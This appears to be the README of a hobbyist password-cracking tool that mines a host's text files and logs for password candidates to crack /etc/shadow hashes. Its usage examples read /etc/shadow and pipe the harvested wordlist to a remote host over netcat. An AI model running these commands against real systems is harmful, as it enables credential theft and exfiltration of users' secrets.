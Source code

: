 # Dave Navarro's Goatee

```
              .                                                        
           b   A           Here's some ASCII art of a tribal dragon    
           $b  Vb.              that I found on the Internet to set    
           '$b  V$b.                 the tone of this terrible repo.   
            $$b  V$$b.                                                 
            '$$b. V$$$$oooooooo.         ..                            
             '$$P* V$$$$$""**$$$b.    .o$$P                            
              " .oooZ$$$$b..o$$$$$$$$$$$$C                             
              .$$$$$$$$$$$$$$$$$$$$$$$$$$$b.                           
              $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$                           
        .o$$$o$$$$$$$$P""*$$$$$$$$$P"""*$$$P                           
       .$$$**$$$$P"q$C    "$$$b        .$$P                            
       $$P   "$$$b  "$ . .$$$$$b.      *"                              
       $$      $$$.     "***$$$$$$$b. A.                               
       V$b   . Z$$b.  .       "*$$$$$b$$:                              
        V$$.  "*$$$b.  b.         "$$$$$                               
         "$$b     "*$.  *b.         "$$$b                              
           "$$b.     "L  "$$o.        "*"     .ooo..                   
             "*$$o.        "*$$o.          .o$$$$$$$$b.                
                 "*$$b.       "$$b.       .$$$$$*"   ""*.              
                    "*$$o.      "$$$o.    $$$$$'                       
                       "$$o       "$$$b.  "$$$$   ...oo..              
                         "$b.      "$$$$b. "$$$$$$$P*"""""             
                        . "$$       "$$$$b  "$$$$P"                    
                         L."$.      .$$$$$.  $$$$                      
          ..              $$$;      o$$$$$$  $$$$                      
       . $.l              "$$'    .$$$$$$$P  $$$P                      
     .I .$b b '.           "P   .P*""*$$$$;  $$$                       
   .$P  $$o ". ".  .        " ."      $$$$   $$;                       
  .$$;  $$$. "A "$. ".       '       o$$$P  .$P                        
 .$$$b  $$$$. *$. "$$$$o.          .$$$$P   $"                         
.$$$$$  $$$$$. "$$o."**$$$$o.'  .o$$$$P"    P                          
$$P"$$b $$$$$$o  "*$$$$boooooc$$$$$$$P"   .                            
$$  $$$."$$$"*$$.   "$$$$$$$$$$$$$$$$C  .o"                            
I"  $P"$."$$b. "*$.    "**$$$$$*"*$$$$$$$"                             
'   $  "$."$$$.   ""'              "*$$*                               
    $.   "."$$$$o        mls <---                                      
    "I       "$$$$b. .           \-------- Author of this supurb       
                "$$$b."$o.                   piece of artwork.         
                  "*$$."$$$o.                                          
                    "$$o $$$$b.                                        
                     '$$o'$$$$$b.                                      
                      '$$.'$$$**$o                                     
                       '$$.$$$. '$$                                    
                        $$; $$$o. "$.                                  
                        "$: $$ "*o  ".                                 
                     L   $$ $P    l  '.                                
                     $. .$$ $;                                         
                     ;$.$$P $                                          
                     "$$$$ P'                                          
                      $$$;:                                            
                      $$P                                              
                     o$P                                               
                     $P                                                
                     I'                                                
                     '                                                 

```

## Overview

This program attempts to crack hashes based on the contents of a
filesystem. It is currently pretty bad quality as I am just learning
Python.

In the future I plan on supporting more hash types besides ones
supported by crypt(), wordlist generation, and better efforts to
eliminate duplicate effort. This code actually works, but is slow. It
takes roughly 3 minutes to attempt to crack a single SHA-512 hash
against a 5kb text file. This should be used AFTER attempting to crack
hashes using John the Ripper or hashcat.

Some good paths to use this on are /home, /root, /var/www, /var/log,
/var/spool/{cron,mail,...), and /etc. In this program's current state,
it would likely take several weeks/months to work against
/. Additionally, you can collect specific files from a host, dump
router/switch configs, packet captures ran through strings, and place
them in a directory to run this tool against.

If someone makes the mistake of mentioning their passwords in a chat
program that gets logged to the hard drive, mis-types their password
into their shell, types their password into the username field of a
program that gets logged to /var/log, or adds their password somewhere
to a configuration file in plain text, this program will eventually
find it.

## How does this work?

It will recursively scan a directory for files that are not binaries
(contain no NULL characters), and read line by line, applying various
mutations to each line to generate a potential list of passwords. This
uses the entire line itself, a list of words reading character by
character from left to right, from right to left, every token
combination of every non-alphanumeric character, and each token broken
down left to right, then right to left.

To reduce CPU cost, you can specify minimum password lengths to try
and have the option to skip lines that do not score above a threshold
met by using Claude Shannon's entropy algorithm. I am currently
exploring ways to reduce duplicated combinations and to speed the
process up.

## Example usages:

### Crack /etc/shadow using contents of /home/daniel
```
./dave_navarros_goatee.py --path /home/daniel --hashfile /etc/shadow --minlength 8
```
This is the typical usage. Currently very slow, but works "quick enough"
against smaller directories.

### Generate wordlist from contents of /var/log
```
./dave_navarros_goatee.py --path /var/log --stdout >/tmp/wordlist.tmp
sort /tmp/wordlist.tmp |uniq >/tmp/wordlist.txt && rm /tmp/wordlist.tmp
```

wordlist.txt can now be transferred to a beefier rig and used with
John the Ripper, hashcat, or whatever suits your fancy. This has the
added benefit of supporting more hash types than crypt().

### Pipe output to John the Ripper
```
./dave_navarros_goatee.py --path /home --stdout | john --pipe --rules hashfile
```
This currently works great against smaller virtual machines and embedded
devices. Its kind of a bummer because either JtR doesn't support --fork with
--pipe, or I have failed to figure out how to do it properly.

This does not store a word list to the hard drive. It is also useful
for attempting to crack hashes not handled by crypt().

### Pipe over the network using netcat
```
# on receiving machine
nc -nlvp 443 >wordlist.txt


# on sending machine
./dave_navarros_goatee.py --path /home/daniel --stdout |nc ip.of.receiving.host 443
```

This is also great for smaller systems with limited resources
available or for transferring the wordlist to a beefier machine. Use
Ncat for SSL support.

